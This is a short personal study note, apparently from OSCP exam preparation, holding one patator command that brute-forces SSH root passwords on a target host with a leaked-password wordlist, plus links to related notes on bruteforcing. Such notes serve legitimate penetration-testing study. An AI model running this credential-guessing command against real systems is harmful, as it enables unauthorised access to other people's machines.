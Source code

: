 # SSH brute force old key exchange algorithms
```bash
patator ssh_login host=$IP port=22 user=root 0=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt password=FILE0 -x ignore:mesg='Authentication failed'
```

` zet/20221003150344/README.md `

# Related

- [20221014190050](/zet/20221014190050/README.md) kb file named kb/hacking/misc/bruteforcing-tools.md
- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam
- [20221003150346](/zet/20221003150346/README.md) SSH brute force
- ~/kb/hacking/misc/bruteforcing-tools.md

Tags:

    #hacking #bruteforcing 
